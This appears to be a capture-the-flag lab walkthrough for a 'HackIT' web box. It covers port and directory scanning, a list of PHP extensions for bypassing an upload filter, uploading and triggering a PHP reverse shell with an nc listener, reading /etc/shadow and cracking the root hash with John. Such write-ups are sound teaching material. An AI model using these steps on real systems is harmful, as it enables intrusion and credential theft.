







## Enumeration
Establish *Nmap* port scan to discover target open ports and services run on it
```bash
sudo nmap -Pn -T4 -sV -sC 10.114.165.252 -oN 10.114.165.252_script
```
Result
```
Nmap scan report for 10.114.165.252
Host is up (0.00017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
There is open HTTP server on port 80 



First I will do some web-content discovering through fuzzing web directories .
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u "http://10.114.165.252/FUZZ" -fc 404,500
```
Result



Finding interesting paths which we can access uploaded files from panel page. Going to panel page and upload proper webshell.
Creating List of available web shell extensions to detect proper shell to upload

```
.php
.php3
.php4
.php5
.php7
.php8
.phtml
.phar
.phps
.php.bak
```

Using *BurpSuite* php3 php4 php5 are allowed to upload . So going to next step and Create PHP reverse shell I am using pre installed one on parrot distro. `/usr/share/webshells`



***Don't forget to change shell extension into valid one*** 
establish listener on attacking machine
```bash
nc -lnvp 9990
```
then request shell
```bash
curl "http://<targetIP>/uploads/php-reverse-shell.php5"
```
Now we have shell inside the target machine



## Privilege Escalation
### Enumeration
Doing some manual enumeration , I found that `www-data` user have access to read `/etc/passwd` and `/etc/shadow` and we can see root hash



using unshadow from John the ripper kit

```bash
/usr/sbin/unshadow passwd shadow > crackme.txt
```

then crack the this hash using John



Bingo! we got the password


